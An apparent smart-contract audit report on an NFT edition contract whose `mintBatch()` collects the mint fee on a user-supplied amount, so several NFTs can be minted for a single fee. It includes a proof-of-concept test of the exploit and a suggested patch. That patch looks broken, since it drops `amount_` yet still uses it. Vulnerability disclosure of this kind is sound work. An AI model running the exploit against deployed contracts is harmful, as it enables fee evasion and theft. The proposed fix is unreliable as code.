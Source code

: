 Able Velvet Lobster

high

# `mintBatch()` Allows Users To Mint Unlimited NFTs by Only Paying Fee of 1 NFT's Mint

## Summary
Users Can Mint Multiple NFTs With Only Paying 1 NFT's Mint Fee using the `mintBatch(address[] calldata receivers_, uint256 tokenId_, uint256 amount_, bytes calldata data_)` function.

## Vulnerability Detail
There are tow `mintBatch` functions, we are only conmcerned here about the one which allows a token's minting to multiple receivers:
```solidity
    function mintBatch(address[] calldata receivers_, uint256 tokenId_, uint256 amount_, bytes calldata data_) external payable {
        ///@audit-issue H Looks like users can use this to mint multiple nfts for almost free - PoC Worked!
        FEE_MANAGER.collectMintFee{value: msg.value}(this, tokenId_, amount_, msg.sender, address(0), works[tokenId_].strategy);
        for (uint256 i = 0; i < receivers_.length; i++) {
            _issue(receivers_[i], tokenId_, amount_, data_);
        }
        _refundExcess();
    }
```
This function takes an array of `receivers_` as an input and mint an NFT to all the addresses given in the array input. The `mintBatch` function first calls the `collectMintFee()` function of the `FEE_MANAGER` contract, which basically calculates NFT's minting fee and takes the fee from the user's account. 

### Issue
The problem is that, that the `mintBatch` calls the `collectMintFee()` function with the user inputted `amount_` variable and it is expected that the users will input the correct `amount_` number. Which allows users to bypass fee for multiple NFTs minting. A malicious user can come to mint 5 NFTs to multiple receivers but only give 1 input for `amount_`. Now, he will pay minting fee only for 1 NFT instead of paying fees for 5 mints.

An attacker exploit this vulnerabilty to mint unlimited NFTs to multiple addresses or even same address as show in the PoC:
### Proof-of-Concept 
```solidity
    function test_batchMint_MultipleNFTsMintingWithOneMintFee_PoC() public {
        address[] memory recievers = new address[](5);
        recievers[0] = address(1);
        recievers[1] = address(1);
        recievers[2] = address(1);
        recievers[3] = address(2);
        recievers[4] = address(5);

        edition.mintBatch{value: 0.0106 ether}(recievers, 1, 1, new bytes(0));  ///> Only 1 NFT Mint Fee
        assertEq(edition.totalSupply(1), 5);                                    ///> 5 NFTs Minted on 3 Multiple Addresses
    }
```
## Impact
- Unlimited NFTs minting by only paying fee for 1 NFT's mint

## Code Snippet
https://github.com/sherlock-audit/2024-04-titles/blob/d7f60952df22da00b772db5d3a8272a988546089/wallflower-contract-v2/src/editions/Edition.sol#L304

## Tool used
[Claws](https://twitter.com/0x_Shaheen/status/1722664258142650806)

## Recommendation
I would suffest a team to find the best solution to this problem, but I guess the solution for this will be to not take `amount_` from the users and use `receivers_.length` instead:
```diff
    function mintBatch(
        address[] calldata receivers_,
        uint256 tokenId_,
-        uint256 amount_,
        bytes calldata data_
    ) external payable {
        // wake-disable-next-line reentrancy
-        FEE_MANAGER.collectMintFee{value: msg.value}(this, tokenId_, amount_, msg.sender, address(0), works[tokenId_].strategy);
+        FEE_MANAGER.collectMintFee{value: msg.value}(this, tokenId_, receivers_.length, msg.sender, address(0), works[tokenId_].strategy);
        for (uint256 i = 0; i < receivers_.length; i++) {
            _issue(receivers_[i], tokenId_, amount_, data_);
        }

        _refundExcess();
    }
```
